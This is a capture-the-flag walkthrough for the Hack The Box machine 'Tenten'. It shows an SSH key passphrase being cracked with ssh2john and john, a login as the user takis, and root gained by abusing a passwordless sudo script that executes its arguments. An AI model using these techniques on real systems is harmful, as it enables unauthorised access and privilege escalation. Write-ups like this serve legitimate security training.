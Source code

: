 # Foothold

## User Takis
- We can use ssh2john and then use john on the hash.
```bash
./ssh2john.py id_rsa > id_rsa.hash
╭─norman@kali ~/Hack-The-Box/machines/tenten ‹main*› 
╰─$ cat id_rsa.hash 
id_rsa:$sshng$1$16$7265FC656C429769E4C1EEFC618E660C$1200$fc75dc501393dc98736e51fbb85f5587b7da6bb
e971c876bfc2874a439c9ba78dd98b4bf95aab592e950dff445fd56b1b634f38ff57984111c2f919c1efddeb2b383952
d2384c2f9de5029ae4a5ac1f6efc1b47e5f114826ecfbccb7ddfef0e8d4ab86ac2ad146c8a993269ee4a8aa942d77edb
9962bd684ff87395f6c9f55338478e0dd5b4ac0a13cc6b9f5ad4e165f2b69f2d224c63e7743ecb31d9bfa393b902cf82
843605369855d570e07c3cc78289ca302e22112ec993c1b3db43c9b2649d5826b317aa4812a848e0d42b9e477c9262aa
ce4a5f5aa643cf7fa0e9fe3d1987fdeda3394d081375acb6a05aa85c758f84adc29b4b4c1aa2d9034d7ea0dbb05d2d07
e77b7d146ec6a94df5c23ee7006581a5f1a8746c1e75875ee3394e04f55b36e95130a3a412bbff34288655170aea4e50
b5d6f07e8ae1fba6cc8e6284e90bcc5db7ac66d434802f52259de5313274218f37f0741980eb12c358c3af1b8f5760d
...[snip]...
```
- The run john against it
```bash
john --wordlist=$ROCK id_rsa.hash                                                     130 ↵
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
Warning: Only 1 candidate left, minimum 4 needed for performance.
1g 0:00:00:06 DONE (2021-04-15 09:11) 0.1494g/s 2143Kp/s 2143Kc/s 2143KC/s *7¡Vamos!
Session completed
```
- So superpassword is the password for the private key.
- `chmod 600 id_rsa` and then try to ssh as `takis`, which was one of the users from the wordpress blog, and use the password superpassword.
```bash
ssh takis@10.10.10.10 -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Thu Apr 15 15:57:44 2021 from 10.10.14.5
takis@tenten:~$ 

```
- We can cat out the user.txt

# Privilege Escalation

## User root
- Upon running `sudo -l` we see we can run `/bin/fuckin` as sudo
```bash
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin

```
- Upon reading the file, we can see it is a bash script (from the shebang line), which we can executes the arguments (1-4)
```bash
takis@tenten:~$ cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4

```
- We can run `sudo /bin/fuckin bash` to get a root shell and then cat out the root.txt
```bash
takis@tenten:~$ sudo /bin/fuckin bash
root@tenten:~# 
```